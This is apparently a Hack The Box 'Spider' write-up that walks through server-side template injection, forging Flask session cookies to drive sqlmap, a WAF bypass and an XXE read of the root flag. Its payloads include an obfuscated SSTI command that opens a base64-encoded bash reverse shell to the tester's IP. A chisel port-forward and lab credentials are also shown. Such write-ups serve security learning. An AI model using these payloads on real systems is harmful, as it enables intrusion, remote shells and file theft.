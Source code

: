 ```yaml
---
title: Spider
tags: 
    - SQL Injection
    - Jwt Tampering
    - XXE
    - "Hard Machines"
categories:
    - "Hack The Box Writeup"
date: 2022-01-13
description: "Hack The Box Machine - Spider writeup"
author: "Tejas"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: true
disableHLJS: false 
disableHLJS: false
hideSummary: true
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: false
UseHugoToc: true
cover:
    image: "https://pbs.twimg.com/media/E2ZXCszXoAUpjh0?format=jpg&name=4096x4096" # image path/url
    relative: false # when using page bundles set this to true
    hidden: false # only hide on current single page
---
```


## Enumeration

### Open Ports

```bash
# Nmap 7.91 scan initiated Sun May 30 00:34:18 2021 as: nmap -sC -sS -sV -vv -oN nmap.txt spider.htb
Nmap scan report for spider.htb (10.10.10.243)
Host is up, received echo-reply ttl 63 (0.18s latency).
Scanned at 2021-05-30 00:34:25 IST for 15s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 28:f1:61:28:01:63:29:6d:c5:03:6d:a9:f0:b0:66:61 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCZKP7Ebfve8CuM7AUHwkj38Y/0Pw04ub27AePqlhmH8FpgdDCkj3WINW8Yer3nmxZdh7zNadl6FZXYfmRRl/K3BC33Or44id3e8Uo87hMKP9F5Nv85W7LfaoJhsHdwKL+u3h494N1Cv0n2ujJ2/KCYLQRZwvn1XfS4crkTVmNyrw3xtCYq0aCHNYxp51/WhNRULDf0MUMnA78M/1K9+erVCg4tOVMBisu2SD7SHN//E2IwSfHJTHfyDj+/zi6BbKzW+4rIxxJr2GRNDaPlYXsm3/up5M+t7lMIYwHOTIRLu3trpx4lfWfIKea9uTNiahCARy3agSmx7f1WLp5NuLeH
|   256 3a:15:8c:cc:66:f4:9d:cb:ed:8a:1f:f9:d7:ab:d1:cc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLxMnAdIHruSk1hB7McjxnudQ7f6I5sKPh1NpJd3Tmb9tedtLNqqPXtzroCP8caSRkfXjtJ/hp+CiobuuYW8+fU=
|   256 a6:d4:0c:8e:5b:aa:3f:93:74:d6:a8:08:c9:52:39:09 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGJq0AuboJ6i4Hv3fUwQku//NLipnLhz1PfrV5KZ89eT
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: F732B9BF02F87844395C3A78B6180A7E
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Welcome to Zeta Furniture.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 30 00:34:40 2021 -- 1 IP address (1 host up) scanned in 22.51 seconds
```
## Web Enumeration

{{< figure src="images/20210531100053.png">}}

* We land on the above webapp. I tried to enumerate subdomains, UDP ports, Directories Nothing useful. 

* But if u notice the above screenshot, I can see there is `%` in Discount. I felt like it was using Template. So I tried SSTI idetification payload `{{7*7}}`.
* I ran that payload in all the fields available to see if its rendered. Eventually the signup page renders it.

{% asset_img 20210531100513.png %}
{% asset_img 20210531100623.png %}

* It has been rendered and the output can be seen in `/user`.
---
## FootHold
Let's try to extract the config `{{config}}`
{{< highlight json >}}
{
  "ENV": "production",
  "DEBUG": "False",
  "TESTING": "False",
  "PROPAGATE_EXCEPTIONS": "None",
  "PRESERVE_CONTEXT_ON_EXCEPTION": "None",
  "SECRET_KEY": "Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942",
  "PERMANENT_SESSION_LIFETIME": "datetime.timedelta(31)",
  "USE_X_SENDFILE": "False",
  "SERVER_NAME": "None",
  "APPLICATION_ROOT": "/",
  "SESSION_COOKIE_NAME": "session",
  "SESSION_COOKIE_DOMAIN": "False",
  "SESSION_COOKIE_PATH": "None",
  "SESSION_COOKIE_HTTPONLY": "True",
  "SESSION_COOKIE_SECURE": "False",
  "SESSION_COOKIE_SAMESITE": "None",
  "SESSION_REFRESH_EACH_REQUEST": "True",
  "MAX_CONTENT_LENGTH": "None",
  "SEND_FILE_MAX_AGE_DEFAULT": "datetime.timedelta(0, 43200)",
  "TRAP_BAD_REQUEST_ERRORS": "None",
  "TRAP_HTTP_EXCEPTIONS": "False",
  "EXPLAIN_TEMPLATE_LOADING": "False",
  "PREFERRED_URL_SCHEME": "http",
  "JSON_AS_ASCII": "True",
  "JSON_SORT_KEYS": "True",
  "JSONIFY_PRETTYPRINT_REGULAR": "False",
  "JSONIFY_MIMETYPE": "application/json",
  "TEMPLATES_AUTO_RELOAD": "None",
  "MAX_COOKIE_SIZE": 4093,
  "RATELIMIT_ENABLED": "True",
  "RATELIMIT_DEFAULTS_PER_METHOD": "False",
  "RATELIMIT_SWALLOW_ERRORS": "False",
  "RATELIMIT_HEADERS_ENABLED": "False",
  "RATELIMIT_STORAGE_URL": "memory://",
  "RATELIMIT_STRATEGY": "fixed-window",
  "RATELIMIT_HEADER_RESET": "X-RateLimit-Reset",
  "RATELIMIT_HEADER_REMAINING": "X-RateLimit-Remaining",
  "RATELIMIT_HEADER_LIMIT": "X-RateLimit-Limit",
  "RATELIMIT_HEADER_RETRY_AFTER": "Retry-After",
  "UPLOAD_FOLDER": "static/uploads"
}
{{< /highlight >}}


### JWT SECRET_KEY

```
Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942
```

Now am guessing there is SQLi in the website similar to `PROPER HTB BOX`. As the JWT token hints me about the hash in it as a tamper checker.

Now as we inject with SQLi with `SQLMAP` the JWT Token should also change as the value of the JWT Paramert will change. 

So we shall automate it with [PYTHON FLASK UNSIGN](https://book.hacktricks.xyz/pentesting/pentesting-web/flask)


### SQLMAP QUERY

```bash
sqlmap http://spider.htb/ --eval "from flask_unsign import session as s; session = s.sign({'uuid': session}, secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942')" --cookie="session=*" --delay 1 --dump
```

For some reason I wasn't able to use `--batch` flag to automate the answering SQLMAP questions.

So answer to the questions as Follow:
```
Y
N
N
N
```
Note: If you get a quesiton with no `y or n` as option enter `c`.


From The SQLMAP DUMP

{% asset_img 20210531102046.png %}

I logged in as chiv and I got access to adminapp.

**CREDENTIALS:** `129f60ea-30cf-4065-afb9-6be45ad38b73:ch1VW4sHERE7331`

I got Adminapp 
{{< figure src="images/20210531102419.png">}}

There was note left:

{{< figure src="images/20210531102433.png">}}

Upon visiting `http://spider.htb/a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal`

I got Support portal and I tried to do SSTI again. It had a WAF. So let's bypass it 

{{< figure src="images/20210531102543.png">}}
{{< figure src="images/20210531102549.png">}}
{{< figure src="images/20210531102627.png">}}

So upon trying lot's of payloads and bypassing characters. By using hex for `_` and `Base64encode` for `.` and stuff.

I ended up with following payload.

```python
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNi85MDAxIDA+JjE= | base64 -d | bash")["read"]() %} a {% endwith %}
```

I got shell as `Chiv` and I converted the current shell to `SSH`. 

**I GOT USER FLAG!**

---

## PRIVILEGE ESCALATION

### XXE

* I can see open ports in local host with `8080`, I got another webpage.
Let's exploit it. I used chisel to port forward it.

```
[LOCAL MACHINE]: ./chisel server -p 8000 -reverse -v


[REMOTE MACHINE]: ./chisel client 10.10.14.26:8000 R:8080:127.0.0.1:8080
```

* After enumerating the page.... `<` as name gives some error this makes me wonder if it has XXE. 
 
* I also found an hidden parameter, which can be made visible by inspect element in web browser and change it from `hidden` to `show`.

{{< figure src="images/20210531103552.png" >}}


in the email section put `&grem;` and in version have to put `1.0.0--><!DOCTYPE root [<!ENTITY grem SYSTEM 'file:///root/root.txt'>]> <!--`

**I GOT ROOT FLAG!**